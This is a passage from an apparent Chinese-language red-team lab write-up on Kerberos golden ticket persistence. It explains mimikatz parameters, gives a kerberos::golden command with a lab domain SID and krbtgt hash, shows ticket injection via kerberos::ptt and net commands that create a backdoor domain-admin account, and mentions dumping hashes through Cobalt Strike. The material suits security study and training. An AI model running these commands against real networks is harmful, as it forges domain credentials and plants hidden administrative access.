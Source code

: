 /krbtgt：krbtgt的Hash值

/ptt：注入内存

/ticket：生成的票据名称

如下命令就说生成一个票据ticket.kirbi文件

```
kerberos::golden /user:administrator /domain:hacke.testlab /sid:S-1-5-21-954094320-202977030-1482179831 /krbtgt:ac923e1d7f56e0adf967356b8d41953e /ticket:ticket.kirbi
```

再通过`kerberos::ptt ticket.kirbi`导入

执行命令的时候用如下命令

![image-20230222184229643](images/3.png)

创建一个的域管账号

```
net user aaa !@#qwe123 /add /domain
net group "domain admins" aaa /add/domain
```

### 通过CS

在之前打红日靶场的时候用黄金票据做过一次权限维持

#### 域控信息收集

首先直接用CS的mimikatz抓取hash

![image-20220909134233967](images/4.png)
